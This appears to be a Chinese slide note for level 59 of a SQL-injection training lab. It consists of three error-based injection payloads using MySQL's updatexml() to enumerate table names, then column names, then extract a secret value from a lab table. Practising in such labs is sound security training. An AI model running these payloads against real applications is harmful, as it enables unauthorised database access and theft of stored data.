

# 第五十九关
查表：and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

查列：and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='zwvfx62mzk'),0x7e),1)

查数据：and updatexml(1,(concat(0x7e,(select secret_TXWF from zwvfx62mzk),0x7e)),1) -- qwe